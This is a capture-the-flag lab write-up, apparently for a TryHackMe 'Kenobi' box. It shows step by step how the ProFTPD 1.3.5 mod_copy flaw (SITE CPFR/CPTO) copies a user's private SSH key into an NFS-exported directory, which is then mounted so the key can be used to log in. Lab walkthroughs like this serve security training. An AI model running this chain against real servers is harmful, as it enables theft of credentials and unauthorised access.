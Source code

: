 # Step 1 - Connect to the ftp port via netcat 

```bash
$ nc 10.10.45.110 21                                               
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.45.110]
```

# Step 2 - Use searchsploit to discover any available exploits
```bash
$ searchsploit proftpd 
[...]
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit) | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution     | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                               | linux/remote/36742.txt
[...]
```

The exploit 36742 allows for any file to be copied and downloaded as long as you know about it and where it exists. Using the information from the log.txt file we know that kenobi's ssh key is in the path /home/kenobi/.ssh/id_rsa. 
Combining this information information from the rpc enumeration, where we found that the var directoryis a mount and therefore we can copy kenobi's ssh key to the var directory.

```bash
$ nc 10.10.45.110 21                                               
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.45.110]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

### Note:
* SITE CPFR - Copy From 
* SITE CPTO - Copy To

# Step 3 - Mount the var directory
```bash
(boolean㉿kalibox)[~/thm/kenobi]$ sudo mount 10.10.45.110:/var /mnt/kenobi                                                                                                                        
(boolean㉿kalibox)[~/thm/kenobi]$ ll /mnt/kenobi/tmp
total 20
-rw-r--r-- 1 boolean boolean 1675 Apr 28 20:55 id_rsa
drwx------ 3 root    root    4096 Apr 28 20:17 systemd-private-0f4c15abb56140b88d8ebaa70883b26c-systemd-timesyncd.service-oA2y7u
drwx------ 3 root    root    4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------ 3 root    root    4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------ 3 root    root    4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
```

# Step 4 - Copy id_rsa file
With the id_rsa we are able to ssh to the server as user kenobi

```bash
$ ssh -i id_rsa kenobi@10.10.45.110 
```
